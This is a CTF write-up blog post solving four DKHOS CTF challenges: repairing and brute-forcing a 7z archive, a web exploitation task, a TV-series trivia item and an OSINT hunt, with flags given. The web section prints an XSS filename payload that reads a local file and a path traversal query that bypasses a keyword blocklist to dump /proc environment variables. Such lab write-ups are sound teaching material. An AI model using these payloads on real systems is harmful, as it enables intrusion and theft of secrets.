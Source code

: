 # DKHOS CTF - Writeups


---

### Forensic 300 - Hadi Hoppala ve de Cuppala 
---

The link provided in the task was a corrupted file with no clue.

![image](/post4/post4-9.jpg)

After a brief inspection on header, I understood that this was a [7z] file but got corrupted.

Found the instructions for proper header and footer values on http://www.7-zip.org/recover.html and started to work on this on the last 20 minutes but couldn't make it in time as I was having problem with CRC checksum.

![image](/post4/post4-10.jpg)

Just FYI, I also spend some time after CTF officially ended. This 7z file was also password protected. To crack it I used brute-forcing with rockyou and found 'piggies' was the password.

Flag:
```
DKHOS_{4l_G1rd1n_g1rd1n}
```
---

### Web 200 – Kımızım Kandan Bahtım Karadan

---

When we access to the ip provided, a web page with 'Not Found' text was welcoming us. After inspecting the website code we found the github repo of the [blog theme].

From here, first thing to do was actually Diff'ing the repo with the code in the site. And we've found a file upload section.
In here we also found an XSS vulnerability on Filename attribute and things were going really smooth!

With the code

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///flag.txt");
x.send();
</script>
```

We were able to get the fl.. Unfortunately, it wasn't that easy:).

Just under the page, we have seen the 'DEV' environment and thought this could be a virtual host. We prepared the query and get the response:

```python
import os
from flask import Flask, request
app = Flask(__name__)
blist = (
'proc',
'www',
'var',
'etc',
'root',
'home',
'self',
'flag'
)
def get_flag():
    return os.environ.get('FLAG', '')
def super_firewall(path):
    for b in blist:
        if b in path:
            return False
    return True 
@app.route("/")
def hello():
    return "internal file storage, /file?name="
@app.route("/file")
def get_file():
    name = request.args.get('name', 'server.py')
    if not name:
        name = 'server.py'
    status = super_firewall(name)
    if not status:
        return "access denied"
    with open(name, 'r') as fp:
        content = fp.read()
        return content
if __name__ == '__main__':
    app.run(debug=False)
```

From here, it can be seen as FLAG was stored as an environment variable and we have to echo it somehow. In order to do it, we also need to bypass this mini filter blist.

After couple of trial and errors we prepared the query as:
```
/file?name=/dev/fd/../environ
```

and we got the flag:
```
LANG=en_US.UTF-8SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=internal
FLAG=DKHOS_{y0u_g0t_m3_pyth0n1st4}SUPERVISOR_GROUP_NAME=internalPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---

### Trivia 400 – Kişi Faizi
---
Right after seeing this 'intentional English translation fails', I directly understood this was about TV Series 'Person of Interest' from the title.

![image](/post4/post4-1.jpg)

In the description, a document about Frank Stephens's death was mentioned and the flag was the date on it.  After a brief search on the net, I found the Season 1 Episode 3 could be helpful but watching the whole episode didnt make any sense. Thus I found the episode conversation script and searched for the name.

![image](/post4/post4-2.jpg)

After guessing the time according to these, the document with the flag was on that exact frame.

![image](/post4/post4-3.jpg)

---
### Cyber Intelligence 300 – Naber?
---

From the task description, it was clear that this was a social platform lookup.

![image](/post4/post4-4.jpg)

On the instagram, I've found the user with an interesting share. If looked closer, it can be understood that it was a github account!

![image](/post4/post4-5.jpg)

There was nothing suspicious on this repo as it was just a fork of another repo. Then in the commits I've found some nasty stuff.

![image](/post4/post4-6.jpg)

From here, I found the pastebin account:

![image](/post4/post4-7.jpg)

There was a strange text with a code in this pastebin. After trying telegram groups, we wanted to try whatsapp and found the flag as the name of the group!.



[blog theme]: https://github.com/BlackrockDigital/startbootstrap-clean-blog/tree/gh-pages
[7z]: http://www.7-zip.org
[The Foundation for Children with Leukemia]: http://www.losev.org.tr
[Invictus/Prodaft]: https://www.invictuseurope.com/
[Siberyildiz]: https://www.siberyildiz.com/
[Twitch]: https://www.twitch.tv/hackingwars


